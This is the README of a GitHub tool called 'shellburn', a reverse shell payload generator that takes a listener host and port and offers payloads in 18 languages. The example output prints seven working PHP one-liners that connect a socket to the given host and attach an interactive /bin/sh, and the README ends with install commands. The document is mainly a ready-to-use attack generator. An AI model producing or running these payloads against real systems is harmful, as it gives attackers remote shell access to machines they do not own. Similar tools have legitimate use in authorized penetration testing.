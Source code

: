# shellburn
  this is the automate generetor of reverse shell's payload.
  
  first args are host, 2nd args to port
  
```
$ ./shellburn.py 127.0.0.1 1234

 (                                              
 )\ )    )       (   (    (                     
(()/( ( /(    (  )\  )\ ( )\    (   (           
 /(_)))\())  ))\((_)((_))((_)  ))\  )(    (     
(_)) ((_)\  /((_)_   _ ((_)_  /((_)(()\   )\ )  
/ __|| |(_)(_)) | | | | | _ )(_))(  ((_) _(_/(  
\__ \| ' \ / -_)| | | | | _ \| || || '_|| ' \)) 
|___/|_||_|\___||_| |_| |___/ \_,_||_|  |_||_|  
--------------------------------------------------
reverse_shell_payload_generator_


[>]YourIP: 127.0.0.1 [>]Port: 1234
```

appear the number for payloads 

```
+-+--->>
|0|Awk.
+-+---->>
|1|Bash.
+-+---------->>
|2|C_language.
+-+------>>
|3|Groovy.
+-+---->>
|4|Java.
+-+--->>
|5|Lua.
+-+---->>
|6|Ncat.
+-+------>>
|7|Netcat.
+-+------>>
|8|NodeJS.
+-+------->>
|9|OpenSSL.
+--+---->>
|10|Perl.
+--+---------->>
|11|Powershell.
+--+------>>
|12|Python.
+--+----->>
|13|Socat.
+--+------>>
|14|Telnet.
+--+------>>
|15|golang.
+--+--->>
|16|php.
+--+---->>
|17|ruby.
+-+---->>

[+]Select the Number of payload
> 
```

choise the number and then display the payload and that's included host and ports from args

```
[+]Select the Number of payload
> 16
[>]Selected: php

    php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);`/bin/sh -i <&3 >&3 2>&3`;'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);system("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);passthru("/bin/sh -i <&3 >&3 2>&3");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
    
    php -r '$sock=fsockopen("127.0.0.1",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
    
$ 

```
# Execute like a Command in anywhere

```
git clone https://github.com/Ki11i0n4ir3/shellburn.git

cd shellburn

chmod +x shellburn.py

sudo cp shellburn.py /usr/local/bin/shellburn

sudo cp -r shellpalm /usr/local/bin/shellpalm

shellburn <Lhost> <Lport>

```


![alt text](https://github.com/Ki11i0n4ir3/gifs/blob/main/kids_geek.gif)
